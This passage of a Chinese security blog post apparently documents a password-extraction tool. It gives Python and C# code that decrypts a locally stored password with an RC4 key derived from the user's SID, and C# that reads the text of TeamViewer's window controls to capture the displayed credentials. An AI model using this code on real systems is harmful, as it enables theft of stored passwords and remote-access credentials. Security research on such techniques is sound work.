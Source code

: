     UserSid = "RcoIlS-1-5-21-3990929841-153547143-3340509336-1001"
    rawPass = "klSqckgTSU0TfhYxu6MB1ayrbnu3qnTOEYXUVlZe9R1zdney"
    data = b64decode(rawPass)
    Cipher = ARC4.new(SHA256.new((UserSid).encode()).digest())
    ciphertext, checksum = data[:-SHA256.digest_size], data[-SHA256.digest_size:]
    plaintext = Cipher.decrypt(ciphertext)
    print plaintext.decode()
    ```
    
*   **_C# 版本_**
    
    ```
    string UserSid = "RcoIlS-1-5-21-3990929841-153547143-3340509336-1001";
    string rawPass = "klSqckgTSU0TfhYxu6MB1ayrbnu3qnTOEYXUVlZe9R1zdney";
    
    byte[] data = Convert.FromBase64String(rawPass);
    
    byte[] Key = new SHA256Managed().ComputeHash(Encoding.ASCII.GetBytes(UserSid));
    
    byte[] passData = new byte[data.Length - 0x20];
    Array.Copy(data, 0, passData, 0, data.Length - 0x20);
    byte[] decrypted = RC4Crypt.Decrypt(Key, passData);
    
    Console.WriteLine("Decrypt: {0}", Encoding.ASCII.GetString(decrypted));
    
     ==》 Decrypt: root
    ```
    

**结果如下所示：**

[![](https://rcoil.me/image/%E3%80%90%E7%BC%96%E7%A8%8B%E3%80%91SharpDecryptPwd/blog_2019-08-23_09-32-36.png)](https://rcoil.me/image/%E3%80%90%E7%BC%96%E7%A8%8B%E3%80%91SharpDecryptPwd/blog_2019-08-23_09-32-36.png)

以上所有测试均为工作组环境，因为在域环境解密失败，原因未知。

[](#0x04-TeamView "0x04 TeamView")0x04 TeamView
-----------------------------------------------

直接是通过获取 `TeamView` 的句柄，把窗体上所有控件的变量给读出来。

```
public static bool EnumFunc(IntPtr hWnd, IntPtr lParam)
{
    StringBuilder sb = new StringBuilder(256);
    const int WM_GETTEXT = 0x0D;
    GetClassNameW(hWnd, sb, sb.Capacity);
    if (sb.ToString() == "Edit" || sb.ToString() == "Static")
    {
        WindowInfo wnd = new WindowInfo();
        wnd.hWnd = hWnd;
        wnd.szClassName = sb.ToString();
        if (wnd.szClassName == "Edit")
        {
            StringBuilder stringBuilder = new StringBuilder(256);
            SendMessage(hWnd, WM_GETTEXT, 256, stringBuilder);
            wnd.szWindowName = stringBuilder.ToString();
        }
        else
        {
            GetWindowTextW(hWnd, sb, sb.Capacity);
            wnd.szWindowName = sb.ToString();
        }
        //Console.WriteLine("句柄=" + wnd.hWnd.ToString().PadRight(20) + " 类型=" + wnd.szClassName.PadRight(20) + " 名称=" + wnd.szWindowName);
        //add it into list
        wndList.Add(wnd);
    }
    return true;
```